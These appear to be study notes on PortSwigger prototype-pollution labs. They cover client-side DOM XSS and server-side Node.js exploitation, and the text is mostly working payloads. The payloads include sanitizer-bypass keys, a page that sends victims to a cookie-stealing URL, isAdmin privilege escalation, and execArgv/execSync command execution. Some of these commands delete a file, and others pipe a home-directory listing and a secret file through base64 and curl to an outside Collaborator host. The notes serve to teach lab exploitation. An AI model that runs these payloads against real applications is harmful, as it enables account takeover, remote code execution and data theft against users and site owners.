 # Prototype Pollution

Prototype pollution is a JavaScript security bug where an attacker injects or changes properties on Object.prototype (the base object every normal object inherits from). Because most objects inherit from that prototype, changing it can silently change app behavior and lead to serious issues — often remote code execution, data tampering, or DOM XSS in browsers.



## How it works (simple steps)
- JavaScript objects inherit from Object.prototype.
	- Example: {} → inherits properties from Object.prototype.
- If an attacker can control a property name like __proto__ or constructor.prototype through user input (query strings, JSON, form fields), they can change that prototype.
- After pollution, any object that checks or uses the polluted property will see the attacker-controlled value.

Example payloads:
- Query-string style: /?__proto__[isAdmin]=true
- JSON-like (if an app naively merges user JSON into config): ``` {"__proto__":{"role":"admin"}} ```
```js
// before
Object.prototype.marker // undefined

// attacker injects ?__proto__[marker]=owned
Object.prototype.marker // "owned"
({}).marker             // "owned"  <-- every object now has marker

```

## Lab: Client-side prototype pollution via browser APIs

- Goal: Exploit client-side prototype pollution to trigger a DOM XSS (script.src) sink.

Manual approach

- Find pollution source: Inject into query string 
	- 	/?__proto__[foo]=bar and verify Object.prototype.foo appears in the browser console.
- Identify gadget: Inspect site scripts (Sources). 
	-	In searchLoggerConfigurable.js a transport_url is dynamically appended as a <script> but was made non-writable/unconfigurable with Object.defineProperty() without defining a value property — this creates a gadget that reads value.
- Exploit: Pollute prototype so the gadget picks up a value property: 
	-	/?__proto__[value]=data:,alert(1); — the page renders <script src="data:,alert(1);"> and alert(1) runs, solving the lab.

DOM Invader (Burp) approach

	- Load lab in Burp browser, enable DOM Invader with prototype-pollution option.
	- Reload; DOM Invader finds prototype-pollution vectors in the query string.
	- Click Scan for gadgets → DOM Invader locates the value gadget and the script.src sink.
	- Click Exploit → DOM Invader auto-generates the POC and triggers alert(1).
Key takeaway: Prototype pollution via __proto__ can inject properties that interact with existing DOM-creating gadgets (e.g., script insertion) to achieve DOM XSS.


---


## Lab:  DOM XSS via client-side prototype pollution

Goal: Use prototype pollution to control a script src and trigger DOM XSS.

Manual steps (quick):

-	Find pollution vector: Inject into query string:
	-	/?__proto__[foo]=bar → confirm Object.prototype.foo === "bar" in DevTools Console.
-	Identify gadget: Inspect site scripts (Sources). 
	-	searchLogger.js will append a <script> if config.transport_url exists — a potential gadget if that property is read later.
-	Exploit: Pollute the prototype with transport_url:
	-	/?__proto__[transport_url]=data:,alert(1);
	Check Elements — a <script src="data:,alert(1);"> appears and alert(1) runs. Lab solved.

Automated (Burp DOM Invader):

	- Load lab in Burp browser → enable DOM Invader + prototype-pollution.
	- Reload: it finds pollution vectors in the query string.
	- Click Scan for gadgets → it finds the transport_url gadget and the script.src sink.
	- Click Exploit → DOM Invader generates a POC and triggers alert(1).

Key takeaway: Polluting __proto__ can inject properties (like transport_url) that existing client-side code uses to create DOM elements (e.g., script tags), enabling DOM XSS.

---

## Lab: DOM XSS via an alternative prototype pollution vector

Goal: Exploit prototype pollution to inject malicious JavaScript into an eval() sink.

Manual solution

- Find prototype pollution source:

	- Test /?__proto__[foo]=bar → no effect.

	- Try /?__proto__.foo=bar → success (Object.prototype.foo now equals "bar").

- Identify gadget:

	- In searchLoggerAlternative.js, an eval() sink uses manager.sequence, which isn’t defined — potential gadget.

- Craft exploit:

	- Inject payload:
		- /?__proto__.sequence=alert(1)
		- → error occurs, showing alert(1)1 (extra “1” breaks syntax).

	- Fix syntax by appending a minus:
		- /?__proto__.sequence=alert(1)-
		- → valid JS, triggers alert(1) and solves the lab.

DOM Invader solution

	- Enable prototype pollution option and reload page.
	- DOM Invader detects pollution vector in query string.
	- Scan for gadgets → finds eval() sink via sequence property.
	- Generated PoC fails initially due to the trailing 1 in payload.
	- Manually append - to the payload in URL → alert(1) executes successfully.



Key takeaway:
	- By polluting Object.prototype with a property used by an eval() sink, you can inject and execute JavaScript (DOM XSS). Sometimes, syntax adjustments (like adding -) are needed to fix malformed payloads.

---

## Lab: Client-side prototype pollution via flawed sanitization

Goal: Bypass the app’s key-sanitization to pollute Object.prototype, then control a script.src gadget to trigger DOM XSS.

How the bypass works :

- Simple __proto__ or constructor.prototype attempts are blocked by the site’s sanitizeKey() blocklist, so /?__proto__.foo=bar and similar fail.

- The filter isn’t recursive and can be bypassed by obfuscating the blocked key so the sanitizer misses it but the parser still interprets it. Example bypass forms used:

	- /?__pro__proto__to__[foo]=bar
	- /?__pro__proto__to__.foo=bar
	- /?constconstructorructor[protoprototypetype][foo]=bar
	- /?constconstructorructor.protoprototypetype.foo=bar

- After injecting one of those, Object.prototype.foo === "bar" — prototype pollution achieved.

Finding the gadget:

- Inspect site JS. searchLogger.js dynamically appends a <script> using config.transport_url if present.

- config.transport_url is not normally defined — a perfect gadget if you can supply it through the polluted prototype.

Exploit (POC):

- Pollute the prototype with transport_url:
	- /?__pro__proto__to__[transport_url]=data:,alert(1);

- The page renders <script src="data:,alert(1);"> and alert(1) executes → lab solved.

Key takeaway: Even when direct __proto__ keys are blocked, non-recursive sanitizers can be bypassed by tricking the parser with obfuscated key names. If client-side code later reads a property (e.g., transport_url) to build DOM (script.src), that polluted property can be used to trigger DOM XSS.


---

## Lab: Client-side prototype pollution in third-party libraries

Goal: Use prototype pollution delivered in the URL fragment (#...) to control a setTimeout() sink (hitCallback) and execute code (steal cookie).


- Load the lab in Burp’s built-in browser.
- Enable DOM Invader and turn on the prototype pollution option.
- Open DevTools → DOM Invader tab and reload the page. DOM Invader finds two pollution vectors in the URL hash (fragment).
- Click Scan for gadgets → wait for the gadget scan. It finds a hitCallback gadget that reaches a setTimeout() sink.
- Click Exploit → DOM Invader auto-generates a POC and runs alert(1) (proof the sink is exploitable).
- Disable DOM Invader.
- On the lab’s exploit server, create an HTML payload that navigates victims to a malicious URL containing the polluted hash. Example body:

```html
<script>
  location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>

```
- Test the exploit yourself (confirm navigation and that alert(document.cookie) runs).
- Deliver the exploit to a victim to solve the lab.

Key takeaway: Prototype pollution delivered via the URL fragment can be discovered and weaponized with DOM Invader. If a gadget (here hitCallback) feeds attacker-controlled properties into DOM timers (setTimeout), you can execute arbitrary JS (e.g., alert(document.cookie)) by getting the victim to visit a crafted URL.

---

## Lab: Privilege escalation via server-side prototype pollution

Goal: Pollute server-side object prototype via a JSON request to become an admin and delete the carlos user


- Inspect address update: Log in, submit the account address form. In Burp HTTP history find the POST /my-account/change-address request — the form data is sent as JSON and the server responds with a JSON user object.

- Prototype pollution test: Send the request to Repeater and add:
	```json
	"__proto__": { "foo": "bar" }

	```
	- Send it — the response user object now shows foo: "bar" (but no __proto__), indicating prototype pollution (inherited property).

- Find gadget: The response has isAdmin: false — this property is read by the app to show admin links.

- Exploit: Modify JSON to:
	```json
	"__proto__": { "isAdmin": true }

	```
Key takeaway: Untrusted JSON merged into server-side objects can pollute Object.prototype. If the app relies on properties like isAdmin from user objects, prototype pollution lets an attacker escalate privileges.

---

## Lab: Detecting server-side prototype pollution without polluted property reflection

- Log into the account page and submit the change-address form while capturing the POST /my-account/change-address in Burp Proxy.

- Send the request to Burp Repeater and note the server exchanges JSON representing the user.

- Add an injected : 
	```__proto__ property (e.g. {"__proto":{"foo":"bar"}}) ``` and resend — response may not immediately show the injected field.

- Intentionally break the JSON to get an error response (500) whose error object contains a status: 400.

- Restore valid JSON, change the injected __proto__ to include a custom status (must be between 400–599), e.g. ``` {"__proto":{"status":555}},``` and resend — get normal user response.

- Break the JSON again; this time the error object’s status/statusCode reflect the injected value from Object.prototype, confirming prototype pollution and solving the lab.

One-line takeaway: use __proto__ injection plus triggering an error path to prove Object.prototype was polluted (observed via modified error status).

---



##

- Log in, update your address, and capture the POST /my-account/change-address request in Burp.

- Send it to Repeater and test prototype pollution by injecting:
```json
"__proto__": { "json spaces": 10 }

```

- Visit the admin panel and note that running maintenance jobs likely spawns Node.js child processes.

- Exploit this by injecting:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"]
}

```
Trigger maintenance jobs — the Burp Collaborator receives DNS hits, confirming remote code execution (RCE).


- Finally, replace the payload with:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]
}

```
Trigger the jobs again — Carlos’s file is deleted, solving the lab.

In short: Prototype pollution via __proto__ leads to Node.js RCE by manipulating execArgv, enabling arbitrary command execution and file deletion.

---


Study the Address Change Feature

	- Log in and update your address via the account page.
	- In Burp Suite, locate the POST /my-account/change-address request.
	- Observe the JSON response reflecting the updated address.

Identify Prototype Pollution

	- Send the request to Burp Repeater.
	- Inject a __proto__ property with 
	```json
	{"json spaces":10}.
	```
	- Confirm prototype pollution by observing increased JSON indentation in the response.

Trigger Remote Code Execution (RCE)

	- Go to the admin panel and trigger maintenance jobs.
	- Inject malicious properties into __proto__ to exploit child_process.execSync():
	```json
	"__proto__": {
  	"shell": "vim",
 	 "input": ":! curl https://YOUR-COLLAB-ID.oastify.com\n"
	}
	```
	- Trigger the job and confirm RCE via Burp Collaborator interactions.

Leak Hidden File Name

	- Modify payload to list Carlos’s home directory:
	```json
	"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
	```

Exfiltrate Secret File

	- Update payload to read and exfiltrate /home/carlos/secret:
	```
	"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
	```
	- Trigger the job, decode the Base64 response, and retrieve the secret.